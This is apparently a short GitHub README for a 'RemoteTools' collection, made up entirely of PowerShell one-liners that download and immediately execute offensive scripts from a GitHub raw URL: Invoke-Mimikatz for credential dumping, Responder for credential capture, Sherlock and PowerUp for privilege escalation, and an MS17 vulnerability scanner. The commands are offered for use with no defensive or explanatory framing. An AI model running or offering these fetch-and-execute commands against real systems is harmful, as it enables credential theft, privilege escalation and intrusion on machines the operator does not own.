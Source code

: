 # RemoteTools

## These are configured to be run via powershell remotely.  

### Credit to the original authors 

### Mimikatz

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Invoke-Mimikatz.ps1')  

### Responder

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Responder.ps1')  

### Sherlock

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Sherlock.ps1')

### Powerup

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/PowerUp.ps1')

### MS17 Scanner (Requires Powershell AD Module)

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/MS17.ps1')
